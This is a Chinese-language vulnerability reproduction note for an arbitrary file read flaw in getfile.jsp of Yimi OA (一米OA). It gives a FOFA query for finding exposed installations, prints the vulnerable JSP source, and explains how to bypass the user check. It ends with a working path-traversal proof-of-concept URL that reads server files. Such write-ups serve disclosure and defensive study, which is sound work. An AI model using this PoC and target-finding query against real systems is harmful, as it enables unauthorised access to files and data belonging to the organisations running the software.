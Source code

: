 # 一米OA getfile.jsp 任意文件读取漏洞

## 漏洞描述

一米OA getfile.jsp文件过滤不足，导致任意文件读取漏洞

## 漏洞影响

```
一米OA
```

## FOFA

```
app="一米OA"
```

## 漏洞复现

产品页面

![image-20220520132327152](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201323308.png)

出现漏洞的文件

```
<%@ page contentType="text/html;charset=utf-8" %>
<%@page import="cn.js.fan.util.*" %>
<%@page import="cn.js.fan.web.Global" %>
<%@page import="com.redmoon.oa.*" %>
<%@page import="java.io.*" %>
<jsp:useBean id="fchar" scope="page" class="cn.js.fan.util.StrUtil"/>
<jsp:useBean id="fsecurity" scope="page" class="cn.js.fan.security.SecurityUtil"/>
<jsp:useBean id="privilege" scope="page" class="com.redmoon.oa.pvg.Privilege"/>
<%
    String user = ParamUtil.get(request, "user");
    if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }

    String filename = ParamUtil.get(request, "filename");
    String extname = request.getParameter("extname");
    String prop = request.getParameter("prop");
    if (filename == null) {
        System.out.println("缺少文件名！");
        return;
    }

    filename = filename + "." + extname;

    Config cfg = new Config();
    String noticefilepath;
    if ("activex".equals(prop)) {
        noticefilepath = prop;
    } else {
        noticefilepath = cfg.get(prop);
    }

    String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }

    response.setContentType("application/" + extname);
    response.setHeader("Content-disposition", "attachment; filename=" + filename);

    BufferedInputStream bis = null;
    BufferedOutputStream bos = null;

    try {
        bis = new BufferedInputStream(new FileInputStream(filePath));
        bos = new BufferedOutputStream(response.getOutputStream());

        byte[] buff = new byte[2048];
        int bytesRead;

        while (-1 != (bytesRead = bis.read(buff, 0, buff.length))) {
            bos.write(buff, 0, bytesRead);
        }

    } catch (final IOException e) {
        System.out.println("出现IOException." + e);
    } finally {
        if (bis != null)
            bis.close();
        if (bos != null)
            bos.close();
    }

    out.clear();
    out = pageContext.pushBody();
%>
```

首先验证 user 传参是否为空, 需要对 user 参数任意赋值

```
if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }
```

接着接受3个参数 `filename, extname, prop`

```
String filename = ParamUtil.get(request, "filename");
String extname = request.getParameter("extname");
String prop = request.getParameter("prop");
```

接着判断 prop 是否为 activex, 不等于则会去调用系统默认配置的路径 所以filename和extname这两个参数我们可以控制。构造请求前台任意文件读取

```
String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }
```

验证POC

```
/public/getfile.jsp?user=1&prop=activex&filename=../public/getfile&extname=jsp 
```

![image-20220520132344272](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201323352.png)
